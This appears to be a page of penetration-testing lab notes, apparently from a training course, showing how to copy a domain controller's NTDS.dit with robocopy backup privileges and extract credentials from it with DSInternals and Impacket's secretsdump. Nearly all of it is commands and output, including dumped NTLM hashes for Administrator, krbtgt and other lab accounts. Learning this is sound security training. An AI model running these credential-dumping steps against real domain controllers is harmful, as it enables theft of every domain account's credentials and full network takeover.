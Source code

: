 4) Extracting Credentials from NTDS.dit

```
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

DistinguishedName: CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
Sid: S-1-5-21-669053619-2741956077-1013132368-500
Guid: f28ab72b-9b16-4b52-9f63-ef4ea96de215
SamAccountName: Administrator
...
```

5) Extracting Hashes Using SecretsDump

```
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129:::
htb-student:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
bob:1105:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
hyperv_adm:1106:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
printsvc:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
```

## Robocopy

```
robocopy /B E:\Windows\NTDS .\ntds ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, May 6, 2021 1:11:47 PM
   Source : E:\Windows\NTDS\
     Dest : C:\Tools\ntds\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

          New Dir          1    E:\Windows\NTDS\
100%        New File              16.0 m        ntds.dit

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         1         0         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   16.00 m   16.00 m         0         0         0         0
```